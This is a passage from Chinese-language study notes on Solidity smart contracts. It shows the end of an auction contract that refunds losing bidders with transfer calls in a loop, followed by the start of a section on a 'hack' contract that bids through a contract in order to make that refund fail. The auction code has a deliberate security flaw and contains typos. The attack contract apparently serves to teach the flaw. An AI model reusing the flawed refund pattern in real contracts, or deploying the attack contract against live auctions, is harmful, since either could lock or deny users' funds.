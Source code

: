 ```solidity
		}
		// 本次出价比当前最高价高，取代之
		highestBidder = msg.sender;
		bids[msg.sender] += msg.value;
		emit HightBidIncreased(msg.sender, bids[msg.sender]);
	}
	
	/// 结束拍卖，把最高的出价发送给受益人，
	/// 并把未中标的出价者的钱返还
	function auctionEnd() public{
		// 拍卖已截止
		require(now > auctionEnd);
		// 该函数未被调用过
		require(!ended);
		
		// 把最高的出价发送给收益人
		beneficiary.transfer(bids[hightestBidder]);
		// 对没有竞拍成功的人，将金额退回给出价的人
		for (uint i = 0; i < bidders.length; i ++){
			address bidder = bidders[i];
			if (bidder == highestBidder) continue;
			bidder.transfer(bids[bidder]);
		}
		
		ended = true;
		emit AuctionEnded(highestBidder, bids[highestBidder]);
	}
}
```

拍卖有一个受益人beneficiary，拍卖结束前每个人都可以竞拍，但是在拍卖结束前，你用于竞拍的以太币会被锁在智能合约之中，不可中途退出，但是可以加价。拍卖结束时，出价最高的人投出去的前会给受益人，其他没有竞拍成功的人可以将投出去的前取回来

第30行`bids[msg.sender]`是一个哈希表，如果之前没有出过价就为0，`msg.value`表示当前的出价

智能合约发布到区块链中就无法更改

### hack账户引发的异常

```solidity
pragma solidity ^0.4.21;

import "./SimpleAutionV1.sol";

contract hackV1{
	
	function hack_bid(address addr) payable public{
		SimpleAutionV1 sa = SimpleAutionV1(addr);
		sa.bid.value(msg.value)();
	}
}
```
